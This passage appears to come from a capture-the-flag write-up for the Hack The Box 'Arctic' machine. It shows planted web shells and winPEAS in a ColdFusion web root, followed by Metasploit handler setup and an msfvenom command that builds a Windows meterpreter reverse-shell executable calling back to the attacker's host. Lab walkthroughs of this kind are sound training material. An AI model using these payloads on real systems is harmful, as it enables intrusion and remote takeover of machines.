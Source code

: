 ```
22/03/2017  08:53 ��    <DIR>          adminapi
22/03/2017  08:55 ��    <DIR>          administrator
18/03/2008  11:06 ��             1.151 Application.cfm
22/03/2017  08:52 ��    <DIR>          classes
22/03/2017  08:52 ��    <DIR>          componentutils
22/03/2017  08:52 ��    <DIR>          debug
22/03/2017  08:52 ��    <DIR>          images
18/03/2008  11:06 ��            12.077 install.cfm
18/03/2008  11:07 ��               278 multiservermonitor-access-policy.xml
18/03/2008  11:06 ��            30.778 probe.cfm
22/03/2017  08:52 ��    <DIR>          scripts
23/01/2021  01:09 ��             2.887 shell.jsp
23/01/2021  01:39 ��             1.499 shellv2.jsp
23/01/2021  04:18 ��           472.066 winPEAS.exe
22/03/2017  08:52 ��    <DIR>          wizards
               7 File(s)        520.736 bytes
              10 Dir(s)  33.191.440.384 bytes free
```

But nothing happens.

```
C:\ColdFusion8\wwwroot\CFIDE>winPEAS.exe cmd
winPEAS.exe cmd
```

So I think I’ll have to resort to metasploit. To do this, I have to set up a meterpreter shell.

So lets run msfconsole and set up a handler:

MAKE SURE you set the payload to windows/meterpreter/reverse_tcp. I wasted way too long wondering why my reverse meterpreter did not work. It’s because I was listening for a generic tcp instead.

```
kali@kali:~/htb/Arctic$ sudo msfconsole
                                                  
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.21
hlost => 10.10.14.21
msf6 exploit(multi/handler) > set lport 5555
lport => 5555
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.21:5555 
```

And let’s create a meterpreter shell:

```
kali@kali:~/htb/Arctic$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.21 lport=5555 -f exe > meter.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```
